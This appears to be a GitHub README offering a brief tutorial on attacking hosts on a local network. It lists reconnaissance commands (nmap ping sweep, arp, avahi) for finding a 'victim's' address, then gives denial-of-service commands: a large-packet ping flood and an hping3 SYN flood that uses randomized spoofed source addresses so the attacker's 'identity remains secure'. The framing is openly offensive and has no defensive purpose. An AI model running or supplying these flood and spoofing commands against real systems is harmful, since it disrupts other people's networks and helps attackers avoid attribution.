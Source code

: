# Network-Security
## getting info about devices connected to your local network
to start an attack you should first get some basic information about your victim, like ip address.
my favorite command is the last one, but it requires the installation of avahi.
The first thing to get into network security is to learn how to use nmap. There is a tutorial in this repo for that.
we can use one or more of the following commands to get that info:
```
nmap -sP 192.168.1.0/24
arp -a
arp
avahi-discover
avahi-browse -rat
```
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource.
But it will also flood your pc with ping responses, so use this command only if you are sure that your pc has greater speed than the victim.
```
  ping -f -s 65500 ip(or website)
```

However, there are more sophisticated tools available at our disposal like Hping3.
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks.
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```
